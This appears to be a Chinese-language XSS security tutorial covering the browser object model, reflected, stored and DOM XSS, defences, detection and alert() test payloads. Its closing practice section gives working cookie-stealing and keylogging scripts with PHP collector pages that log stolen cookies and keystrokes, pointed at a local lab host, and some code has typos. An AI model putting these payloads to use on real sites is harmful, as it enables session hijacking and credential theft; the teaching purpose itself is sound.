



# 基础知识

> BOM模型

- 即浏览器对象模型,由于现代浏览器几乎实现了`JavaScript`交互性方面相同方法和属性,因此常被认为是`BOM`的方法和属性

- 例如:

  ```php
  /*
  
  window对象
  所有浏览器都支持window对象,他表示浏览器窗口
  所有JavaScript全局对象,函数以及变量均自动成为window对象的成员
  全局变量是window对象的属性和方法
  甚至 HTML DOM 的 document 也是 window 对象的属性之一
  window.document.getElementById("header"); ---------- document.getElementById("header");
  
  */
  ```

- ```cmd
  window.location --> window在使用时可以被省略
  
  # location.hostname --> 返回web主机的域名
  # location.pathname --> 返回当前页面的路径和文件名
  # location.port     --> 返回web主机的端口(80或443)
  
  <script>document.write(location.pathname);</script>
  ```

- ```html
  //window.navigator --> 对象包含有关访问者浏览器信息
  
  <script>
      txt = "<p>浏览器代号:" + navigator.appCodeName + "</p>";
      txt += "<p>浏览器名称:" + navigator.appName + "</p>";
      txt += "<p>浏览器版本:" + navigator.appVersion + "</p>";
      txt += "<p>启用Cookies:" + navigator.cookieEnabled + "</p>";
      txt += "<p>硬件平台:" + navigator.platform + "</p>";
      txt += "<p>用户代理:" + navigator.userAgent + "</p>";
      txt += "<p>用户代理语言:" + navigator.language + "</p>";
      document.write(txt);
  </script>
  ```

- ```cmd
  document.cookie --> 对象用于存储web页面的用户信息,可以用来创建,读取,删除cookie
  
  //创建cookie
  document.cookie="username=Sun Hua";
  
  //读取cookie
  document.write(document.cookie)
  
  //删除cookie
  document.cookie="username=;expires=Sun,02 July 2024 15:41 GMT";
  ```

  

------

> XSS漏洞

- `XSS`又叫做`CSS`,全称为`跨站脚本攻击`,它指的是攻击者往web页面或者url里`插入`恶意的 `JavaScript` 脚本代码,如果web应用程序对用户输入的内容没有`过滤`,那么当正常用户浏览该网页的时候,嵌入在web页面里的恶意 `JavaScript脚本代码会被执行`,从而达到恶意攻击正常应用的目的
- 漏洞的`位置`:
  - `数据交互`的地方-->`get`,`post`,`cookies`,`headers`方法,`富文本编辑器`,`各类标签插入和自定义`
  - `数据输出`的地方-->用户资料,关键词,标签,说明
- 原理



- ```php
  //服务端代码
  <?php
      $input = $_GET["input"];
  	echo $input;
  ?>
      
  //用户提交
  <script>alert(/xss/)</script>    
  ```

  

- XSS漏洞产生`条件`:
  - 1.可以控制的输入点
  - 2.`输入`能返回到前端页面上`被浏览器当成脚本语言解释执行`
- XSS漏洞的`危害`:
  - 窃取用户Cookie,冒充用户身份进入网站
  - 键盘记录
  - 客户端信息探查
  - XSS组合其它漏洞getshell
  - 劫持用户会话,执行任意操作
  - 刷流量,执行弹窗广告
  - 传播蠕虫病毒
- XSS漏洞的`防御`:
  - a:使用`XSS Filter`-->过滤用户提交的有害信息,从而达到防范XSS攻击的效果
  - b:输入过滤 --> 对用户输入进行过滤(后端)
  - c:输入验证 --> 对用户提交的信息进行`有效验证`(是否仅包含合法字符,字符长度限制,输入是否符合特殊的格式要求)
  - d:输出编码 --> HTML编码主要使用对应的`HTML 实体代替字符`
- `检测`XSS的方法:
  - 手工检测
    - 使用手工检测时需要考虑`哪里有输入,输入的数据在什么地方输出`
    - 可得知输出位置:输入一些`敏感字符`,例如`<`,`>`,`"`,`'`,`()`等,请求后查看html源码,看这些输入的字符`是否被转义`
    - 无法得知输出位置时:可能需要管理员审核,无法得知输入的数据在后台管理界面处于什么状态
  - 全自动检测XSS
    - `APPSCAN`,`AWVS`,`Burp`等软件
    - 专业的XSS扫描工具:`XSStrike`
- `工具与手动相结合`

****

> XSS漏洞的分类

| 类型      | 存储区                  | 插入点          |
| --------- | ----------------------- | --------------- |
| 反射型XSS | URL                     | HTML            |
| 存储型XSS | 后端数据库              | HTML            |
| DOM型XSS  | 后端数据库/前端存储/URL | 前端 JavaScript |

- `反射型XSS`

  - 概念:是`非持久性`,参数型的跨站脚本,反射型XSS的Js代码在`web应用的参数`(变量)中,如`搜索框`的反射型XSS
  - 存在位置:常见于通过`URL传递参数`的功能,如网站搜素,跳转等
  - 攻击手法:需要欺骗用户自己去点击`链接`才能触发XSS代码(服务器中没有这样的页面和内容),一般容易出现在搜索页面
    - 验证反射性xss漏洞是否存在
    - `<script>alert(/xss/)</script>`(常用)
    - `<script>confirm('xss')</script>`
    - `<script>prompt('xss')</script>`

- `存储型XSS`

  - 概念:`持久性`跨站脚本,是三种XSS中`危害最大`的,它是将恶意代码写进`数据库`或`文件`等可以`永久保存数据的介质中`
  - 存在位置:常出现在`留言板`,`发表评论`或`发表文章`的地方(数据写入的地方)
  - 攻击手法:通过留言板等功能,将攻击者精心构造的XSS代码`保存到数据库`中,当其它用户再次访问这个页面时,就会触发并执行,从而窃取用户的敏感信息
    - 以留言板为例,留言板是`容易`发生`存储型XSS`的地方
    - 输入测试代码`<script>alert(/xsstest/)</script>`,提交留言,当网站管理员在后台进入留言管理页面时就会弹出,只要留言不删除,每次进入都会弹窗

- `DOM型XSS`

  - `不经过后端`,输出点在DOM,DOM-XSS是通过url传入参数去控制触发的,本质也属于`反射型XSS`

  - 攻击手法:攻击者构造出`特殊的URL`,其中包含恶意代码,用户打开带有恶意代码的URL,用户`浏览器`接收到响应后`解析执行`,前端`JavaScript`取出URL中的恶意代码并执行.恶意代码窃取用户数据并发送到攻击者的网站,或者冒充用户的行为,调用目标网站的接口执行攻击者指定的操作

  - | 方法                    | 描述                                                        |
    | ----------------------- | ----------------------------------------------------------- |
    | getElementById()        | 返回带有指定ID的元素                                        |
    | getElementByTagName()   | 返回包含带有指定标签名称的所有元素的节点列表(集合/节点数组) |
    | getElementByClassName() | 返回包含带有指定类名的所有元素的节点列表                    |
    | appendChild()           | 把新的节点添加到指定节点                                    |
    | removeChlid()           | 删除子节点                                                  |
    | replaceChild()          | 替换子节点                                                  |
    | insertBefore()          | 在指定的子节点前面插入新的子节点                            |
    | createAttribute()       | 创建属性节点                                                |
    | createElement()         | 创建元素节点                                                |

  - poc: `?message=<script>alert(/xss/)</script>`

  - 以`锚点`的方式提交poc,poc并`不会发送到服务器`,但是已经触发了XSS

  - 测试代码

  - ```html
    <html>
    <body>
    <script>
    	var a = document.URL;	//获取url
    	a = unescape(a);
    	document.write(a.substring(a.indeOf("message=")+8,a.length));	//获取url中的message的值,并且输出
    </script>
    </body>
    </html>
    ```

- 三种漏洞`区别`

  - ```php
    //存储型XSS与反射型XSS的区别:存储型XSS的恶意代码存在数据库里,反射型XSS的恶意代码存在URL里
    
    //DOM型与其它两种的区别:DOM型XSS攻击中,取出和执行恶意代码由浏览器端完成,属于前端Javascript自身的安全漏洞,而其它两种XSS都属于服务端的安全漏洞
    ```

    

------

# 实战

> Cookie获取

```php
//index.php

<?php

if(isset($_POST['submit']))
        setcookie("work","study%20hard");
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <script type="text/javascript" src="./cookie.js"></script>
    <form action="#" method="post" id="form1">
    UserName:<input type="text" name="username"><br>
    Password: <input type="password" name="password"><br>
        <input type="submit" name="submit" value="submit">

    </form>
    
</body>
</html>
```

```php
//cookie.php

<?php

$cookie=$_GET['cookie'];   //获取cookie信息
$log = fopen('cookie.txt','a');    //生成获取的cookie信息，打开文件，a是追加写模式
fwrite($log,$cookie.PHP_EOL);  //fwrite写入
fclose($log);

?>
```

```js
//cookie.js

var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src='http://127.0.0.1/xss-cookie/cookie.php?cookie='+encodeURIComponent(document.cookie);
```



> 键盘输入值获取

```html
//index.html

<html>
    <head>
        <script type="text/javascript" src="./log.js"></script>
        <meta charset="utf8">
        <form action="#" method="post" id="form1">
            <label>Username:&nbsp;&nbsp;</label>
            <input type="text" name="username"/><br/>
            <label>PassWord:&nbsp;&nbsp;</label>
            <input type="password" name="password"/><br/><br/>
            <input type="submit" value="submit"/>
        </form>
    </head>
</html>
```

```js
//log.js

document.onkeypress = function (evt) {
    evt = evt ? evt : window.event;
    key = String.fromCharCode(evt.keyCode ? evt.keyCode : evt.charCode);
    if (key) {
        var http = new XMLHttpRequest();
        var param = encodeURI(key);
        http.open("POST", "http://127.0.0.1/xss-keypess/log.php", true);
        http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
        http.send("key=" + param);
    }
}
```

```php
//log.php

<?php
$key=$_POST['key'];
$logfile='result.txt';
$fp=fopen($logfile,"a");
fwrite($fp,$key);
fclose($fp);
?>
```

